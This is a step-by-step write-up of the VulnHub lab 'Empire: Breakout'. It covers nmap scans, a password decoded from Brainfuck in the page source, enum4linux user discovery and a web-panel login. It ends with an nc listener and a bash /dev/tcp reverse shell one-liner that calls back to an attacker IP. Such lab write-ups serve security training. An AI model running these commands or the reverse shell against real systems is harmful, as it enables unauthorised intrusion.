::::::::::::::: page
# Empire: Breakout {#empire-breakout .title}

\

## 

## Empire: Breakout

- **[Empire: Breakout]{style="color:#ffbe6f;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/empire-breakout,751/>



- Now unzip the file .
- Open ovf file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#ff7800;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.112
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.112
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.112
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.112
:::



1.  [Web Enumeration]{style="color:#ff7800;"} :

- IP visit in browser : <http://192.168.2.112/>
  <http://192.168.2.112/manual/en/index.html>
  <https://192.168.2.112:10000/> <https://192.168.2.112:20000/>

<!-- -->

- After visit the port 80 inspect source code :



- Decode the value :

::: codebox
    https://md5decrypt.net/en/Brainfuck-translator/
:::

 Decode value .

- Decoded Password :

::: codebox
    .2uqPEfj3D<P'a-3
:::

1.  [SMB Enumeration]{style="color:#ff7800;"} :

- Enum4linux :

::: codebox
    enum4linux -a 192.168.2.112
:::



- Confirmed Username :

::: codebox
    cyber
:::

- Login with username and password in port 20000 :

::: codebox
    Username : cyber
    Password : .2uqPEfj3D<P'a-3
:::



 Sucessful login .

1.  [Reverse Shell]{style="color:#ff7800;"} :

- Click on command shell :



- Start the listener :

::: codebox
    nc -nlvp 443
:::

- Inject the payload in command shell :

::: codebox
    bash -c 'bash -i >& /dev/tcp/192.168.2.219/443 0>&1'
:::



- Get the reverse shell :


:::::::::::::::
